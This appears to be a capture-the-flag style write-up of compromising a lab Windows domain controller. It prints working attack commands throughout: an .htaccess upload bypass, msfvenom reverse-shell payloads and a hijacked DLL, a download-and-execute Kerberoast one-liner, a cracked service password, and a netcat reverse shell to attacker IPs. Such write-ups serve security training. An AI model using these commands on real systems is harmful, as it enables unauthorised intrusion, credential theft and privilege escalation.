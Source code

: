 #Pwned #Windows #AD #TokenAbuse #FileUpload #Updated
```IP
192.168.232.187
```

# Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.232.187 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE       REASON          VERSION                                    53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus                            80/tcp   open  http          syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-10-26 10:49:36Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## HTTP 80
As soon as I saw the HTTP port opened, I started to do some enumeration to it. Firstly we enumerate the directories with ffuf tool, and take notice at some 301 status results.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026125821.png?raw=true)

The webpage allows us to upload image files when we try to buy a ticket, but it does not allow to upload php files...

However we can bypass the file extension check when uploading images by using the following extensions in a PHP reverse shell file.
`php%20` works but it does not execute.
`.ctp` also works but does not execute.

Maybe we can edit the .htaccess file in order to allow php files to execute, so we overwrite create in our local machine the following file in order to execute the .ctp as php:
```
echo "AddType application/x-httpd-php .ctp" > .htaccess
```

In order to create a stable reverse shell we can upload a PHP file and a .exe file, the former objective being to execute the second as shown below:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133705.png?raw=true)

To create a .exe windows tcp reverse shell we can use the following command:
```
msfvenom -p windows/shell_reverse_tcp  LHOST=192.168.45.187 LPORT=443 -f exe -o rev.exe
```

Then we upload all three files rev.exe, run.ctp and the new .htaccess. Afterwards we execute the run.ctp. It will call rev.exe and give us a revshell in our nc listener:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026134026.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133617.png?raw=true)

As we can see, we have gained access as service account svc_apache, so our next step will be privilege escalation.
# PrivEsc

## Manual
Being a service account, we do not have access to local.txt flag. By enumerating domain users we see MSSQL service account. A possible exploitation could be to ask for a kerberos ticket.

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102748.png?raw=true)

In order to do that we would need the SPN. With `Get-SPN.ps1` powershell script we can get the SPN of the MSSQL account:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102834.png?raw=true)

And with the following powershell commands we will obtain the kerberos hash:
```powershell
Add-Type -AssemblyName System.IdentityModel
```
```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'  
iex(new-object net.webclient).downloadString('http://192.168.45.201:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat
```
With `jhon` tool we crack the obtained hash and we get the following password:
```
trustno1
```
Now we can enum shares to check if svc_mssql account has any interesting shares:
```bash
 nxc smb 192.168.232.187 -u 'svc_mssql' -p 'trustno1' --shares
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027112559.png?raw=true)

None. We can try to get command execution with svc_mssql. To do so, we will download and execute `invoke-runas` script. First we will send a whoami command to check it works:
```powershell
.\Invoke-RunasCs -Username svc_mssql -Password "trustno1" -Command "whoami"
```
It works! So we can upload nc.exe and get a reverse shell as shown below:
```powershell
Invoke-RunasCs svc_mssql trustno1 "C:\xampp\htdocs\uploads\nc.exe 192.168.45.201 45 -e cmd.exe"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216101223.png?raw=true)

Running `whoami /priv` discloses a SeManageVolumePrivilege  token that we can use for PE. There is an exploit already compiled for this purpose:

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public

Running this exploit gives us permissions on 918 entries. Among them we have the following directory:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104138.png?raw=true)

Which previously only administrators had full control:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104229.png?raw=true)

We can hijack one of the systems dll and trigger it in order to get a reverse shell. We will do this with Printconfig.dll. First we will create with msfvenom a malicious.dll containing a reverse shell:
```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.216 LPORT=4444 -f dll -o Printconfig.dll
```
We transfer the file to our target machine and copy it to the following directory:
```powershell
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```
And then this dll is triggered by the following commands:
```powershell
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
```
```powershell
$object = [Activator]::CreateInstance($type)
```
On execution we will get inmediately NT Authority\System access:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105447.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105437.png?raw=true)

Therefore, we can retrieve proof.txt flag:

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105535.png?raw=true)

Pwned!

